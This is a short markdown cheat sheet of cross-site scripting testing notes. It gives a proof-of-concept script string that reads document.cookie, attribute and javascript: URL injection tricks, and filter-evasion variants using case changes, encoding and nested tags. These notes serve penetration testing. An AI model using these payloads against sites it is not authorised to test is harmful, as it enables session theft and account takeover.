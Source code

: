 ```yaml
---
layout: page
title:  "Cross Site Scripting (XSS)"
permalink: "xss.html"
tags: [security, web]
summary: ""
---
```

## Introduction
* Standard poc atttack string: `"><script>alert(document.cookie)</script>"`


## Strategy
* Test every entrypoint and find where these inputs (chosen so that they shouldn't be filtered) are displayed back to the user
* Sanitized/decoded/modified input can still be enough for exploitation

## Tactics
* Chack the page source code, not only the page rendered by the browser
* URL encode payload ?
* Remain within a tag using `onload` attribute: `" onload=alert()`
* If input returned inside a JS quoted string, ensure injected payload valid. Can comment the remainder using `//`
* Attribute containing an url: `javascript:alert()`
* Invalid image name: `#" onclick="javascript:alert()`

## Filters evading
### script filters
* Add space: `"><script >alert(document.cookie)</script >"`
* Change case: `"><ScRiPt>alert(document.cookie)</ScRiPt>"`
* Hex encoding: `"%3e%3cscript%3ealert(document.cookie)%3c/script%3e"`
* Double `script` keyword: `"><scr<script>ipt>alert(document.cookie)</scr</script>ipt>"`


## Resources and references
* [Example of finding an XSS bug](https://medium.com/@marin_m/how-i-found-a-5-000-google-maps-xss-by-fiddling-with-protobuf-963ee0d9caff)
* [Toole for easy XSS](https://github.com/chinarulezzz/pixload/blob/master/README.md)